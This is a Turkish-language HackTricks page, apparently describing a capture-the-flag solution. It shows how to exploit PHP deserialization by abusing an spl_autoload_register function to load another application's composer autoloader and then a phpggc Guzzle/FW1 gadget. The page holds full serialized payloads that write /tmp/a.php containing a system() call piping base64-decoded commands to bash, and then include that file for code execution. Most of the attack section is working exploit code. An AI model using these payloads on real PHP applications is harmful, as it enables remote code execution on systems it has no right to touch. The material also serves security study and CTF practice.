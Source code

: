 # PHP - Deserialization + Autoload Classes

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Öncelikle, [**Autoloading Classes**](https://www.php.net/manual/en/language.oop5.autoload.php) nedir kontrol etmelisiniz.

## PHP deserialization + spl\_autoload\_register + LFI/Gadget

Bir **web uygulamasında PHP deserialization** bulduğumuz bir durumdayız ve **`phpggc`** içinde **gadget**'lara karşı **hiçbir** kütüphane zayıf değil. Ancak, aynı konteynerde **zayıf kütüphanelere sahip farklı bir composer web uygulaması** vardı. Bu nedenle, hedef **diğer web uygulamasının composer yükleyicisini yüklemek** ve bunu **deserialization'a karşı zayıf olan web uygulamasından bir gadget ile o kütüphaneyi istismar etmek** için kullanmaktı.

Adımlar:

* Bir **deserialization** buldunuz ve mevcut uygulama kodunda **hiçbir gadget** yok
* Aşağıdaki gibi bir **`spl_autoload_register`** fonksiyonunu kullanarak **herhangi bir yerel `.php` uzantılı dosyayı yükleyebilirsiniz**
* Bunun için, sınıf adının **`$name`** içinde olacağı bir deserialization kullanıyorsunuz. Serileştirilmiş bir nesnede sınıf adında **"/" veya "."** kullanamazsınız, ancak **kod** **alt çizgileri** ("\_") **eğik çizgilerle** ("/") **değiştiriyor**. Yani `tmp_passwd` gibi bir sınıf adı `/tmp/passwd.php`'ye dönüştürülecek ve kod bunu yüklemeye çalışacak.\
Bir **gadget örneği** şöyle olacaktır: **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
Eğer bir **dosya yükleme** alanınız varsa ve **`.php` uzantılı** bir dosya yükleyebiliyorsanız, bu işlevselliği **doğrudan kötüye kullanabilir** ve zaten RCE elde edebilirsiniz.
{% endhint %}

Benim durumumda, böyle bir şeyim yoktu, ama **aynı konteynerin** içinde **`phpggc` gadget'ına karşı savunmasız bir kütüphane** olan başka bir composer web sayfası vardı.

* Bu diğer kütüphaneyi yüklemek için, önce **o diğer web uygulamasının composer yükleyicisini yüklemeniz** gerekiyor (çünkü mevcut uygulamanın yükleyicisi diğerinin kütüphanelerine erişmeyecek). **Uygulamanın yolunu bilerek**, bunu çok kolay bir şekilde elde edebilirsiniz: **`O:28:"www_frontend_vendor_autoload":0:{}`** (Benim durumumda, composer yükleyicisi `/www/frontend/vendor/autoload.php` içindeydi)
* Şimdi, **diğer uygulamanın composer yükleyicisini yükleyebilirsiniz**, bu yüzden kullanmak için **`phpgcc`** **payload'unu oluşturma** zamanı. Benim durumumda, **`Guzzle/FW1`** kullandım, bu da **dosya sisteminin içine herhangi bir dosya yazmamı** sağladı.
* NOT: **Oluşturulan gadget çalışmıyordu**, çalışması için **o payload'u** **`chain.php`** dosyasında **değiştirdim** ve sınıfların **tüm niteliklerini** **özelden genel** olarak ayarladım. Aksi takdirde, dizilimi çözülmüş dizeden sonra, oluşturulan nesnelerin niteliklerinin hiçbir değeri yoktu.
* Artık **diğer uygulamanın composer yükleyicisini yükleme** yoluna sahibiz ve **çalışan bir phpggc payload'u** var, ama **gadget kullanıldığında yükleyicinin yüklenmesi için BUNU AYNI İSTEĞİN İÇİNDE yapmamız gerekiyor**. Bunun için, her iki nesneyle birlikte bir serileştirilmiş dizi gönderdim:
* **Önce yükleyicinin yüklendiğini ve ardından payload'unu görebilirsiniz**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* Artık **bir dosya oluşturup yazabiliriz**, ancak kullanıcı **web sunucusundaki herhangi bir klasöre yazamaz**. Yani, yüklemede görebileceğiniz gibi, PHP **`system`** çağrısı ile bazı **base64** içeriği **`/tmp/a.php`** içinde oluşturulmuştur. Ardından, **oluşturulan `/tmp/a.php`** dosyasını yüklemek için diğer web uygulamasının composer yükleyicisini yüklemek üzere kullandığımız ilk tür yüklemeyi **yeniden kullanabiliriz**. Bunu deserialization gadget'ına ekleyin:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**Yükün Özeti**

* **Aynı konteynerdeki** farklı bir web uygulamasının composer autoload'unu yükle
* **Başka bir web uygulamasından** bir kütüphaneyi kötüye kullanmak için bir phpggc gadget'ı yükle (deserialization'a karşı savunmasız olan ilk web uygulamasında herhangi bir gadget yoktu)
* Gadget, /tmp/a.php dosyasında kötü niyetli komutlarla birlikte **PHP yükü** içeren bir dosya oluşturacak (web uygulaması kullanıcısı, herhangi bir web uygulamasının herhangi bir klasörüne yazamaz)
* Yükümüzün son kısmı, **oluşturulan php dosyasını yükleyecek** ve komutları çalıştıracak

Bu deserialization'ı **iki kez çağırmam gerekti**. Testlerimde, ilk seferde `/tmp/a.php` dosyası oluşturuldu ama yüklenmedi, ikinci seferde ise doğru bir şekilde yüklendi.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

